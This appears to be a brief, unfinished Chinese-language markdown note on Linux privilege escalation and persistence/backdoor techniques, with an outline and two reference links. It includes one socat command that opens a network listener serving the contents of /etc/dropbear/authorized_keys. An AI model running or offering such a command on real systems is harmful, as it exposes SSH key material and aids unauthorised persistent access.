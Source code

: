 # persistence

持久化、backdoor 的编写等



1. 提权
2. 持久化
   1. 基于 mount 实现的隐藏
   2. 

`socat -d -d TCP-LISTEN:8888,reuseaddr,fork SYSTEM:"cat /etc/dropbear/authorized_keys"`

## refer

1. https://hadess.io/the-art-of-linux-persistence/
2. rbash 逃逸大全，https://xz.aliyun.com/t/7642?time__1311=n4%2BxnD0G0%3DG%3DeAK0QbDsA3OxmxOm5i%3DGb4D
3. 